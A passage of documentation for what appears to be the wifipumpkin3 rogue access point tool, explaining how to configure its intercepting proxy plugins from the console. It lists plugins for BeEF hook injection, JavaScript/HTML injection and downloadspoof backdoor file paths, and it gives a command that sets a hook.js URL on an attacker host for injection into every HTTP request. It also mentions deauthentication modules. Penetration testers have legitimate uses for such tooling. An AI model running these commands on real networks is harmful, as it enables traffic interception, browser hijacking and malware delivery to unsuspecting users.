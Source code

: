 Avaliable Porxys:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxys` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxys developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).

### Modules

A module provides a features that not is necessary to use with access point, the must modules are projected for add a new functionality into attack, like `devices discovery`, `services enumeration`, `perform deauthentication attacks` and etc.  Modules are introduced to add more functionalities to complement the attack. 

{% include alert.html type="info" content="the syntax of modules basically follow the struct the modules of `metasploit`" %}

The basic core command guidelines:

| commands | descriptions | 
|:-----------|:------------|
set  | set options for module
back  | go back one level
help  | show avaliable commands 
options  | show options of current module
run  | execute module
